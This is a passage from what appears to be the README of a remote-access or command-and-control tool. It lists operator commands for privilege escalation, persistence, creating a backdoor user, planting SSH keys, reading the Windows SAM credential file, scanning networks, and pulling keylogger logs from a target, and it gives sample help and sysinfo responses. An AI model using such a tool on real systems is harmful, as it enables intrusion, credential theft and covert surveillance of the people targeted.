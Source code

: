 | `priv_docker` | Docker-based escalation | `priv_docker` |
| `priv_persist [path]` | Create persistence mechanism | `priv_persist` |
| `priv_user [user] [pass]` | Create backdoor user | `priv_user admin Pass123` |
| `priv_ssh_key [key]` | Plant SSH key | `priv_ssh_key "ssh-rsa AAA..."` |
| `priv_sudo [pass]` | Sudo escalation with password | `priv_sudo MyPass123` |
| `priv_read_file <path>` | Read admin-protected text file | `priv_read_file C:\Windows\System32\config\SAM` |
| `priv_read_binary <path>` | Read admin-protected binary file (base64) | `priv_read_binary C:\Windows\System32\cmd.exe` |
| `priv_list_dir <path>` | List admin-protected directory | `priv_list_dir C:\Windows\System32\config` |
| `sysinfo` | Display system information | `sysinfo` |

**Network:**
| Command | Description | Example |\_sclc_clu
|---------|-------------|---------|
| `net_info` | Display network info | `net_info` |
| `net_scan` | Scan local network | `net_scan` |
| `net_connections` | Show active connections | `net_connections` |
| `net_public_ip` | Get public IP | `net_public_ip` |

**File Operations:**
| Command | Description | Example |
|---------|-------------|---------|
| `download <file>` | Download file from target | `download logs/keylog.txt` |
| `upload <file>` | Upload file to target | `upload payload.exe` |

---

#### Test Basic Commands

```
help
```

Response: Shows a complete list of all available commands and their descriptions including basic commands, keylogger, privilege escalation, screen & media, network discovery, and clipboard features

```
sysinfo
```

Response: Displays system information (hostname, OS, release, architecture)

```
pwd
```

Response: Prints the current working directory
